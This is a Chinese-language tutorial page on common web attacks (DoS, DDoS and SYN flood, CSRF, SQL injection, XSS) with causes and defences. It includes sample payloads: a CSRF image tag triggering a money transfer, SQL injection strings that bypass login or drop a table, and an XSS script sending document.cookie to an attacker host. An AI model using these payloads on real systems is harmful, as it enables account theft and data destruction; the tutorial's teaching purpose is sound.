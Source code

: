 [TOC]

## Web攻击技术

### 1 Dos攻击

DOS（Denial of Service attack）是一种针对服务器的能够让服务器呈现静止状态的攻击方式。有时候也叫服务停止攻击或**拒绝服务攻击**。其原理就是发送大量的合法请求到服务器，服务器无法分辨这些请求是正常请求还是攻击请求，所以都会照单全收。海量的请求会造成服务器停止工作或拒绝服务的状态。这就是 Dos 攻击。



### 2 DDOS攻击

分布式拒绝服务攻击（Distributed Denial of Service），简单说就是发送大量请求是使服务器瘫痪。DDos攻击是在 DOS 攻击基础上的，攻击者借助公共网络，将大数量的计算机设备联合起来，向一个或多个目标进行攻击。

##### 案例

- SYN Flood ,简单说一下 TCP 三次握手，客户端服务器发出请求，请求建立连接，然后服务器返回一个报文，表明请求以被接受，然后客户端也会返回一个报文，最后建立连接。那么如果有这么一种情况，攻击者伪造 IP 地址，发出报文给服务器请求连接，这个时候服务器接受到了，根据 TCP 三次握手的规则，服务器也要回应一个报文，可是这个 IP 是伪造的，报文回应给谁呢，第二次握手出现错误，第三次自然也就不能顺利进行了，这个时候服务器收不到第三次握手时客户端发出的报文，又再重复第二次握手的操作。如果攻击者伪造了大量的 IP 地址并发出请求，这个时候服务器将维护一个非常大的半连接等待列表，占用了大量的资源，最后服务器瘫痪。
- CC 攻击，在应用层http协议上发起攻击，模拟正常用户发送大量请求直到该网站拒绝服务为止。

##### 被攻击的原因

服务器带宽不足，不能挡住攻击者的攻击流量

##### 预防

最直接的方法增加带宽。但是攻击者用各地的电脑进行攻击，他的带宽不会耗费很多钱，但对于服务器来说，带宽非常昂贵。
云服务提供商有自己的一套完整 DDoS 解决方案，并且能提供丰富的带宽资源。



### 3 CSRF跨站点请求伪造

跨站请求伪造 CSRF (cross site request forgery), 指通过**伪装成受信任用户**的进行访问，通俗的讲就是说访问了 A 网站，然后 cookie 存在了浏览器，然后又访问了一个流氓网站，不小心点了流氓网站一个链接（向 A 发送请求），这个时候流氓网站利用了用户的身份对 A 进行了访问。是指攻击者通过已经设置好的陷阱，强制对已完成认证的用户进行非预期的个人信息或设定信息等某些状态的更新。

属于被动攻击。更简单的理解就是攻击者盗用了用户的名义发送了请求。

##### 案列

一个 CSRF 最简单的例子就是用户 A 登录了网站 A 在虚拟账户里转账了 1000 块钱，用户 A 在本地生成了网站 A 的 cookie，用户 A 在没有关闭网站 A 的情况下有访问了恶意网站 B，恶意网站 B 包含请求 A 网站的代码，利用了本地的 cookie 经过身份验证的身份又向网站 A 发送了一次请求，这时用户就会发现在网站 A 的账户又少了 1000块。这就是基本的 CSRF 攻击方式。

这个例子可能现实中不会存在，但是攻击的方式是一样的。比如说用户登录了 A 银行网站，然后又访问了室友给的一个流氓网站，然后点了里面的一个链接  www.A.com/transfer?account=666&money=10000, 那么这个时候很可能就向账号为 666 的人转了 1w 软妹币。
注意这个攻击方式不一定是我点了这个链接，也可以是这个网站里面一些资源请求指向了这个转账链接，比如说一个

```html
<img src="http://www.A.com/transfer?account=666&money=10000">
```

##### 被攻击的原因

用户本地存储 cookie，攻击者利用用户的 cookie 进行认证，然后**伪造用户**发出请求。

##### 预防

之所以被攻击是因为攻击者利用了存储在浏览器用于用户认证的 cookie，那么如果我们不用 cookie 来验证不就可以预防了。所以我们可以**采用 token（不存储于浏览器）认证**。
通过 referer 识别，HTTP Referer 是 header 的一部分，当浏览器向 web 服务器发送请求的时候，一般会带上Referer，告诉服务器我是从哪个页面链接过来的，服务器基此可以获得一些信息用于处理。那么这样的话，我们必须登录银行 A 网站才能进行转账了。



### 4 SOL注入攻击

是指通过对 web 连接的数据库发送恶意的 SQL 语句而产生的攻击，从而产生安全隐患和对网站的威胁，可以造成逃过验证或者私密信息泄露等危害。SQ L注入的原理是**通过在对 SQL 语句调用方式上的疏漏**，恶意注入 SQL语句。

##### 案例

' or '1'= '1。这是最常见的 SQL 注入攻击，当我们输如用户名 jiajun ，然后密码输如 'or '1'= '1 的时候，我们在查询用户名和密码是否正确的时候，本来要执行的是 

```sql
select * from user where username='' and password=''
```

经过参数拼接后，会执行 SQL 语句 

```sql
select * from user where username='jaijun' and password=' ' or ' 1'='1 '
```

这个个时候 1=1 是成立，自然就跳过验证了。
但是如果再严重一点，密码输如的是 

```sql
';drop table user;-- '
```

那么 SQL 命令为

```sql
select * from user where username='jiajun' and password='';drop table user;--' 
```

这个时候我们就直接把这个表给删除了

##### 被攻击的原因

SQL 语句伪造参数，然后在对参数进行拼接的后形成破坏性的 SQL 语句，最后导致数据库受到攻击。

##### 预防

在 Java 中，我们可以使用**预编译语句**(PreparedStatement)，这样的话即使我们使用 SQL 语句伪造成参数，到了服务端的时候，这个伪造 SQL 语句的参数也只是**简单的字符**，并不能起到攻击的作用。
很多 ORM 框架已经可以对参数进行**转义**。
做最坏的打算，即使被’拖库‘('脱裤，数据库泄露')。数据库中密码不应明文存储的，可以对密码加密，为了加大破解成本，所以可以采用加盐的（数据库存储用户名，盐（随机字符长），md5后的密文）方式。



### 5 XSS攻击

跨站脚本攻击（Cross-Site scripting），是指在通过注册的网站用户的浏览器**内运行非法的HTML标签或javascript**，从而达到攻击的目的，如盗取用户的 cookie，改变网页的 DOM 结构，重定向到其他网页等。

##### 案列

比如说我写了一个博客网站，然后攻击者在上面发布了一个文章，内容是这样的

```html
<script>window.open(“www.gongji.com?param=”+document.cookie)</script>
```

如果我没有对他的内容进行处理，直接存储到数据库，那么下一次当其他用户访问他的这篇文章的时候，服务器从数据库读取后然后响应给客户端，浏览器执行了这段脚本，然后就把该用户的 cookie 发送到攻击者的服务器了。

##### 被攻击的原因

用户输入的数据变成了代码，比如说上面的 \<script>,应该只是字符串却有了代码的作用。

##### 预防

将输入的数据进行转义处理，比如说讲 < 转义成&lt。






**参考资料**

- https://blog.csdn.net/zhydream77/article/details/85694614











